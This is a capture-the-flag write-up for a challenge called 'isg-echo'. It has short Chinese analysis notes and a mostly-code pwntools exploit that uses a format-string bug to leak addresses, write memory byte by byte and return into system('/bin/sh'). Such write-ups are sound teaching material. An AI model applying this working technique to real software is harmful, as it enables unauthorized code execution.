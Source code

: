 ```yaml
---  
layout: post  
title: "isg-echo"  
date: 2015-10-20 16:59:07 +0800  
comments: true  
categories:   
---  
```

###0x00 分析  
格式化字符串漏洞  
先构造任意地址读函数  
再构造任意地址写函数  
在构造任意地址写时，对于小的数字可以采用以下方法  
最后ROP得到shell  
  
###0x01 exp  
  
	from pwn import *  
	from binascii import *  
  
  
	p = process('./echo')  
	#p = remote('127.0.0.1', 6666)  
  
  
	def write(addr, cont):  
		if u8(cont)<= 0xa:  
			print 'small'  
			print u8(cont)  
			payload  = ''  
			payload += 'a'*u8(cont)  
			payload += '%13$hhn'  
			payload  = payload.ljust(2+0x16, 'a')  
			payload += p32(addr)  
			p.recvuntil('age: ')  
			p.sendline(payload)  
		else:	  
			payload  = ''  
			payload += '%'+'0'*(0xe - len(str(u8(cont)))) + str(u8(cont))+'d'  
			#payload += '%13$paaa'  
			payload += '%13$hhna'  
			payload  = payload.ljust(16, 'b')  
			payload += p32(addr)  
			p.recvuntil('age: ')  
			p.sendline(payload)  
  
	def write4(addr, cont):  
		write(addr, cont[0:1])  
		write(addr+1, cont[1:2])  
		write(addr+2, cont[2:3])  
		write(addr+3, cont[3:4])  
  
  
	def leak_addr(n):  
		payload  = ''  
		payload += '%'+str(n)+'$p'  
		print p.recvuntil('age: ')  
		p.sendline(payload)  
		data = p.recv(10)  
		return int(data, 16)  
  
  
  
	libc = ELF('/lib/i386-linux-gnu/libc.so.6')  
  
	a = leak_addr(15)  
	base = a - 0x38c   
	log.info('base:' + hex(base))  
	puts_plt = base + 0x600  
	main = base + 0x79b  
	popebp_ret = base + 0x000006a9  
	a = leak_addr(17)  
	stack_main = 0x40803698 - 0x408036d4 + a  
	log.info('stack_main:' + hex(stack_main))  
	a = leak_addr(43)  
	libc_base = a - 222 - libc.symbols['__libc_start_main']  
	log.info('libc_base:' + hex(libc_base))  
	system = libc_base + libc.symbols['system']  
	ite = libc.search('/bin/sh')  
	binsh = ite.next() + libc_base  
	log.info('system'+hex(system))  
	log.info('binsh'+hex(binsh))  
  
	def over():  
		payload  = ''  
		payload += p32(stack_main)		#ebp  
		payload += p32(system)  
		payload += p32(main)  
		payload += p32(binsh)  
		write4(stack_main, payload[0:4])  
		write4(stack_main+4, payload[4:8])  
		write4(stack_main+8, payload[8:12])  
		write4(stack_main+12, payload[12:16])  
  
	over()  
	p.interactive()  
  
